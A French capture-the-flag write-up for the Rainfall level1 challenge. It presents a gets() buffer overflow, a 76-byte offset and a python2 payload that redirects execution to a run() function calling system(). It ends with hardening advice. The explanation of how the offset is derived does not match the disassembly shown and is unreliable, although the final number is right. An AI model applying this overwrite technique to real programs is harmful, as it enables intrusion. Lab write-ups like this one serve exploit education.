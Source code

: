 # Rainfall — Level 1

> **Exploit write-up (stylisé pour GitHub)**

---

## Sommaire

* [Contexte](#contexte)
* [Informations sur le binaire](#informations-sur-le-binaire)
* [Désassemblage important](#désassemblage-important)
* [Calcul de l'offset](#calcul-de-loffset)
* [Exploit (payload)](#exploit-payload)
* [Résultat attendu](#résultat-attendu)
* [Résumé & recommandations](#résumé--recommandations)

---

## Contexte

Ce document décrit l'analyse et l'exploitation du **level1** du challenge *Rainfall*. L'objectif est de profiter d'un **buffer overflow** causé par `gets()` pour rediriger l'exécution vers la fonction `run()` et obtenir le comportement désiré.

---

## Informations sur le binaire

* Protections : `No RELRO`, `No canary`, `NX disabled`, `No PIE`.
* Conclusion : adresse fixe en mémoire et aucune protection moderne — exploitation classique par écriture d'EIP possible.

---

## Désassemblage important

```asm
08048444 <run>:
 8048444: 55                push   %ebp
 8048445: 89 e5             mov    %esp,%ebp
 8048447: 83 ec 18          sub    $0x18,%esp
 804844a: a1 c0 97 04 08    mov    0x80497c0,%eax
 804844f: 89 c2             mov    %eax,%edx
 8048451: b8 70 85 04 08    mov    $0x8048570,%eax
 8048456: 89 54 24 0c       mov    %edx,0xc(%esp)
 804845a: c7 44 24 08 13 00 00 00  movl $0x13,0x8(%esp)
 8048462: c7 44 24 04 01 00 00 00  movl $0x1,0x4(%esp)
 804846a: 89 04 24          mov    %eax,(%esp)
 804846d: e8 de fe ff ff    call   8048350 <fwrite@plt>
 8048472: c7 04 24 84 85 04 08  movl $0x8048584,(%esp)
 8048479: e8 e2 fe ff ff    call   8048360 <system@plt>
 804847e: c9                leave
 804847f: c3                ret

08048480 <main>:
 8048480: 55                push   %ebp
 8048481: 89 e5             mov    %esp,%ebp
 8048483: 83 e4 f0          and    $0xfffffff0,%esp
 8048486: 83 ec 50          sub    $0x50,%esp        ; réserve 0x50 = 80 octets
 8048489: 8d 44 24 10       lea    0x10(%esp),%eax
 804848d: 89 04 24          mov    %eax,(%esp)
 8048490: e8 ab fe ff ff    call   8048340 <gets@plt> ; vuln
 8048495: c9                leave
 8048496: c3                ret
```

> **Remarque** : `gets()` ne vérifie pas la taille lue — source directe de **buffer overflow**.

---

## Calcul de l'offset

Le `main()` réserve `0x50` (80 octets) pour le buffer sur la pile. L'adresse de retour (EIP) se situe juste après ces 80 octets. Pour écraser EIP :

* Taille du buffer : **80 octets**
* Taille EIP (adresse de retour) : **4 octets**

**Offset à écrire avant écriture de l'adresse de retour** = `80 - 4 = 76`

---

## Exploit (payload)

Adresse de la fonction `run()` : `0x08048444`.

Payload (exemple, généré avec Python 2 pour compatibilité avec l'environnement de test) :

```bash
python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/caca
(cat /tmp/caca; cat) | ./level1
```

> Variante utile pour tests interactifs :
>
> ```bash
> python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/caca
> ./level1 < /tmp/caca
> ```

---

## Résultat attendu

Après exécution du payload ci‑dessus, le programme affiche :

```
Good... Wait what?
```

Ce message indique que l'exécution a été redirigée vers la fonction `run()` et que l'action désirée (appel de `system()` via `run()`) s'est produite.

---

## Résumé & recommandations

**Résumé :**

* Vulnérabilité : `gets()` → buffer overflow
* Offset : **76 octets**
* Technique : écriture directe de l'adresse de la fonction `run()` dans EIP (ret2func)
* Adresse cible : `0x08048444`

**Recommandations** :

* Remplacer `gets()` par `fgets()` ou `getline()` avec vérification de la taille.
* Activer protections modernes : PIE, NX, Fortify, Stack Canaries, RELRO.
* Pour la documentation du repo : ajouter une note expliquant la méthode d'analyse (gdb/objdump) et inclure les commandes exploit/test utilisées.

---